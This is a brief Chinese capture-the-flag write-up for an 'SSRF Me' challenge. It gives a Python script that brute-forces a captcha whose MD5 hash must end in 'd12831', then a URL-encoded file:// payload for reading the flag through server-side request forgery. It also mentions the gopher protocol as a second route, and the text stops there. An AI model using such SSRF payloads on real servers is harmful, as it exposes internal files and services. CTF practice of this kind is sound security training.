

# 题目名称-SSRF Me

```
substr(md5(captcha), -6, 6) == "d12831"
```
取末六位的字符比较,虽然是弱比较,但这里是字符开头,无法绕过,
验证码应该是数字,不然难以碰撞,python脚本如下:
```
from hashlib import md5

target = "d12831"
captcha = 0
max_attempts = 10_000_000  # 设定最大尝试次数

while captcha <= max_attempts:
    hash_value = md5(str(captcha).encode()).hexdigest()  # 计算MD5哈希
    suffix = hash_value[-6:]  # 截取后6位
    if suffix == target:
        print("Found:", captcha)
        break
    captcha += 1

```
然后有两种思路
1.直接file协议读取
file:///%66%6c%61%67(flag)
2.gopher协议